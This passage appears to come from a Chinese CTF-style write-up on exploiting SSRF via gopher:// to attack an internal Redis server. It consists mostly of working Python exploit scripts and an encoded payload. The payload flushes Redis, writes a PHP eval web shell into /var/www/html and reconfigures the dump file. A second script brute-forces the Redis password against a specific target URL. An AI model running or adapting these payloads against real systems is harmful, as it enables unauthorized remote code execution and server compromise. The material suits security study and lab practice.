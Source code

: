 ```python
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.parse.quote(redis_format(x))
    print(urllib.parse.quote(payload))
```

结果

```php
gopher%3A//127.0.0.1%3A6379/_%252A2%250D%250A%25244%250D%250AAUTH%250D%250A%25246%250D%250A123123%250D%250A%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252431%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_GET%255B%2522cmd%2522%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25245%250D%250A1
```

然后就访问`1.php`,GET参数`cmd`进行命令执行。

还有个脚本

```python
# -*- coding: UTF-8 -*-
from urllib.parse import quote
from urllib.request import Request, urlopen

url = "http://1.14.71.112:44423/?url="
gopher = "gopher://127.0.0.1:6379/_"

def get_password():
    f = open("message.txt", "r")   ###密码文件
    return f.readlines()

def encoder_url(cmd):
    urlencoder = quote(cmd).replace("%0A", "%0D%0A")
    return urlencoder

###------暴破密码，无密码可删除-------###
for password in get_password():
    # 攻击脚本
    path = "/var/www/html"
    shell = "\\n\\n\\n<?php eval($_POST['cmd']);?>\\n\\n\\n"
    filename = "shell.php"

    cmd = """
    auth %s
    quit
    """ % password
    # 二次编码
    encoder = encoder_url(encoder_url(cmd))
    # 生成payload
    payload = url + gopher + encoder
```